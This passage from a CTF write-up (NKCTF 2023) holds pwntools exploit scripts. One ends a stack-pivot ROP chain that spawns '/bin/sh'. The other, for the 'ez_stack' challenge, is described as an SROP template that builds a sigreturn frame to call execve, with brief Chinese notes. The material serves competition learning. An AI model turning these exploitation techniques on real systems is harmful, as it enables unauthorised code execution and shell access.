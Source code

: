 ```python
    handle.recvuntil("> ")
    handle.sendline('4')
    handle.recvuntil("now, come and read my heart...")
    #gdb.attach(handle, "b *0x40139f")
    handle.send(payload[:0x20])

    payload = b'a'*2 + p64(elf.symbols['heart']) + p64(0x4050a0-0x10) + p64(leave_ret) # then pivot again, make sp point to 8 lower. now we get three 8bytes to rop and place holds binsh_str
    handle.recvuntil("now, come and read my heart...")
    handle.send(payload[:0x20])

    payload = b'aa/bin/sh\x00' + b'a'*(8) + p64(pop_rdi_ret) + p64(0x4050a0-0x8-0x8) # keep binsh_str align to 8
    handle.recvuntil("now, come and read my heart...")
    handle.send(payload[:0x20])
    handle.interactive()

io = remote("node2.yuzhian.com.cn", 38213)
p = process('./pwn')
solve(io)
```

# ez_stack

溢出，但没东西可用，没有write之类的泄露got地址，也没有能任意修改eax的系统调用，更没有可写可执行的内存页。

所以判断为srop的板子题，通过mov eax, 0xf; ret和syscall进行rt_sigreturn系统调用

[ez_stack](/assets/binary/2023-04-13-NKCTF23/ez_stack.zip)

```python
from pwn import *

#libc = ELF('./libc-2.23.so')
elf = ELF('./ez_stack')
io = remote("node2.yuzhian.com.cn", 39731)
p = process('./ez_stack')

context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

#print(shellcraft.sh())
def solve(handle, debug=False):
    rop = ROP(elf)

    sigret = 0x401146

    frame = SigreturnFrame()
    frame.rax = constants.SYS_execve
    frame.rdi = 0x404020
    frame.rsi = 0
    frame.rdx = 0
    frame.rip = rop.syscall.address

    rop.raw(b'a'*(0x10+8))
    rop(rsi=0x404020)
    rop.call(0x4011ee)
    rop.raw(b'a'*8)
    rop.call(sigret)
    rop.call(rop.syscall.address)
    rop.raw(bytes(frame))
    print(rop.dump())
    handle.recvuntil('Welcome to the binary world of NKCTF!')
```